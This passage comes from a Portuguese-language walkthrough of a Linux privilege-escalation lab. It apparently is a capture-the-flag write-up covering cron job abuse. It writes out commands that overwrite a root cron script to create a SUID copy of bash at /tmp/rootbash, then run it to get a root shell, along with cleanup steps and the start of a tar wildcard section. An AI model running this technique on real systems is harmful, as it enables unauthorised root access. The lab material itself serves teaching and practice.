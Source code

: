 ```bash
```

Sabendo disso podemos alterar o arquivo `overwrite.sh` para que ele copie o binário `/bin/bash` para o diretório `/tmp/rootbash` e altere as permissões para que ele possa ser executado:

```bash
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

Devemos esperar um minuto para que o script seja executado e depois executar o binário `/tmp/rootbash` com a flag `-p` para que ele execute com as permissões do usuário `root`:


```bash
user@debian:/tmp$ ls
backup.tar.gz  rootbash  useless
user@debian:/tmp$ ./rootbash -p
rootbash-4.1# whoami
root
```

Agora vamos responder a pergunta "`What is the value of the PATH variable in /etc/crontab?`"
> /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

![passo9](passo9.png)

E para finalizar vamos remover o código modificado, remover o executável /tmp/rootbash e sair do shell elevado.7

```bash
rootbash-4.1# rm /tmp/rootbash
rootbash-4.1# echo "" > /home/user/overwrite.sh
rootbash-4.1# exit
exit
```

---

## **<a id="10"> • Cron Jobs - Wildcards.</a>**

Vamos dar uma olhada no conteudo do outro cronjob que está no arquivo `/usr/local/bin/compress.sh`:

```bash
user@debian:/tmp$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
